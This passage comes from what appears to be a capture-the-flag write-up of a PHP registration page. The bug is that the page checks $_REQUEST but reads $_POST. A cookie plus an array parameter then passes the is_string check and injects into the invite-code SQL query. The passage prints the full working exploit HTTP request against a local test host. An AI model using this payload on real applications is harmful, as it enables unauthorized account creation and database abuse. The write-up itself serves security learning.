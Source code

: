 ```http
username=lol&password=hi&code[]=LIKE&code[]=%%
```

And the server does the following

```SQL
1. SELECT `id`, `username`, `password` FROM `users` WHERE `username` = 'lol' 2-
2. INSERT INTO `users` (`username`, `password`) VALUES ('lol', '$2y$12$wkWuq83HFSAWovB76Z2pe.gmKrZHbeju2btS0h9Tmg59SlhS1JQn.') RETURNING * shop-
```

PERFECT WE GOT IT


## The Problem 

We just have 1 **big** problem, the server doesn't accept nothing other than string.

This is when my colleague @4v1at0r comes in and I start showing him my progress. 

"The only problem is it doesn't accept arrays, only strings" - I say 
"Show me to code" - he says 

And Immediately he finds the vulnerability

```php
if (isset($_REQUEST['username']) && isset($_REQUEST['password']) && isset($_REQUEST['code']) && is_string($_REQUEST['code'])) {
    if (is_valid_invite($_POST['code'])) {
```

The app is using `$_REQUEST[''code']` on the check and `$_POST[''code']` on `is_Valid_invite()` 

How could I have missed that ! 

On php The variables in `$_REQUEST` are provided to the script via the GET, POST, and COOKIE input mechanisms, and in this order by default. 

So if we inject a code=lol in our cookies

`$_REQUEST['code']` = lol 
`$_POST['code']` = `[LIKE, %%]`

So the is_string() check passes, and the SQL Injection happens, lets take a look at that request 

```http
POST /register.php HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/register.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf; code=lol <- !!!
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=lol&password=hi&code[]=LIKE&code[]=%%
```
